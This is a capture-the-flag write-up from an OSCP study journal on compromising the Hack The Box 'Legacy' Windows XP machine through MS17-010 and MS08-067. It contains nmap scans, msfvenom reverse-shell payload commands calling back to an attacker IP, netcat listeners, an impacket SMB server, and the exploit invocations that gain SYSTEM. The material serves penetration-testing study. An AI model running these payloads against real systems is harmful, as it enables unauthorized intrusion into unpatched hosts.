

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/legacy-easy
---

# ✅ Legacy (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit: CVE-2008-4250 (MS08-67)** and **CVE-2017-0143 (MS17-010)**

**System Vulnerable:** 10.10.10.4

**Vulnerability Explanation:** This machine is vulnerable exploited Microsoft’s implementation of the Server Message Block (SMB) protocol, where if an attacker sent a specially crafted packet, the attacker would be allowed to execute arbitrary code on the target machine.

**Privilege Escalation Vulnerability:** N/A

**Vulnerability Fix:** Recommend to upgrade SMB version and always apply to patch.

**Severity: Critical**&#x20;

**Step to Compromise the Host:**&#x20;

## Reconnaissance

We found that there are 2 service ports open:

* **Port 139**: netbios-ssn
* **Port 445**: microsoft-ds

```
└─$ nmap -p- -sC -sV -T4 10.10.10.4 -Pn
Stats: 0:00:50 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 88.54% done; ETC: 23:45 (0:00:01 remaining)
Nmap scan report for 10.10.10.4
Host is up (0.045s latency).

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-30 11:51 EDT
Nmap scan report for 10.10.10.4
Host is up (0.048s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h57m38s, deviation: 1h24m50s, median: 4d23h57m38s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:56:1c (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-11-04T19:51:08+02:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## Enumeration

Let start enumerating on SMB Service to check if there is any vulnerable on this service. As we can see there is vulnerable to **CVE-2008-4250 (MS08-67)** and **CVE-2017-0143 (MS17-010).**

```
└─$ nmap -p445 --script vuln 10.10.10.4 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-30 23:47 EDT

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 48.93 seconds
```

## Exploitation #1 (MS17-010)

This machine is vulnerable to **Eternal Blue (MS17-010).** This vulnerability exploited Microsoft’s implementation of the Server Message Block (SMB) protocol, where if an attacker sent a specially crafted packet, the attacker would be allowed to execute arbitrary code on the target machine.

We can download the exploit script from the github.

```
git clone https://github.com/helviojunior/MS17-010.git
```

Next, we generate our payload from msfvenom.&#x20;

```
msfvenom -p windows/shell_reverse_tcp -f exe lhost=10.10.14.31 lport=4444 > rev.exe
```

Let start our netcat listener on port 4444.

```
nc -lvp 4444
```

Execute the payload from the folder we downloaded and point to reverse shell location.

```
python send_and_execute.py 10.10.10.4 ~/Desktop/HTB/legacy/rev.exe 
```

.png>)

But unfortunately, we cannot figure out our privilege user on the machine as we could not execute command whoami or username.

.png>)

We can set up our SMB server for share folder or transfer file to our victim machine. Let search for binary file `whoami.exe` on our machine.

```
locate whoami.exe
```

.png>)

Let start SMB server to share folder of binaries files.

```
impacket-smbserver share /usr/share/windows-resources/binaries
```

.png>)

Let connect to our share folder from remote machine. As we can see, we are AUTHORITY\SYSTEM.

.png>)

## Exploitation #2 (MS08-067)

The machine is vulnerable to **MS08-067**. The remote Windows host is affected by a remote code execution vulnerability in the 'Server' service due to improper handling of RPC requests. An unauthenticated, remote attacker can exploit this, via a specially crafted RPC request, to execute arbitrary code with 'System' privileges.

.png>)

**Proof of concept code**: [https://raw.githubusercontent.com/jivoi/pentest/master/exploit\_win/ms08-067.py](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)

By viewing the source code of exploit, we need to replace the shell code and as well as know the OS version.

.png>)

Let generate new payload to replace the existing payload.&#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

.png>)

To discover OS version, there is nmap script was include in the exploit code.

```
└─$ nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 10.10.10.4 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-31 02:34 EDT
Nmap scan report for 10.10.10.4
Host is up (0.042s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-11-05T10:32:16+02:00
```

Let check the syntax and parameter which are require to start execute the exploit python code.

.png>)

Let start the netcat listener on port 443 and execute the exploit code.

```
python ms08-067 10.10.10.4 6 445 
```

.png>)

.png>)
